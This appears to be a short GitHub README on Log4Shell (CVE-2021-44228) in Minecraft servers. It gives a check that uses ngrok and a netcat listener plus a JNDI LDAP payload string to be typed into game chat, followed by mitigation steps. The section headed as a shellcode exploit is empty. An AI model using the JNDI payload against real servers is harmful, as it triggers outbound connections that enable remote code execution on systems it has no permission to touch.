

## FOR TEST SERVER MINECRAFT RCE(CVE-2021-44228)

### FIRST STEP CHECK VUL
1. Use ngrok to Forwarding 
`./ngrok tcp 4444` 

2. Use netcat to Listening 
`nc -lnvp 4444` 
you'll get like this

3. after that call Log4j in chat minecraft  
`${jndi:ldap://2.tcp.ngrok.io:13517/a}`

WOW

### HOW TO MITIGATE CVE-2021-44228
To mitigate the following options are available (see the advisory from Apache here):

1. Upgrade to Log4j v2.15.0

2. If you are using Log4j v2.10 or above, and cannot upgrade, then set the property:

`log4j2.formatMsgNoLookups=true`

Additionally, an environment variable can be set for these same affected versions:

`LOG4J_FORMAT_MSG_NO_LOOKUPS=true`

3. Or remove the JndiLookup class from the classpath. For example, you can run a command like

`zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`

### HOW TO EXPLOIT BY SHELLCODE
...
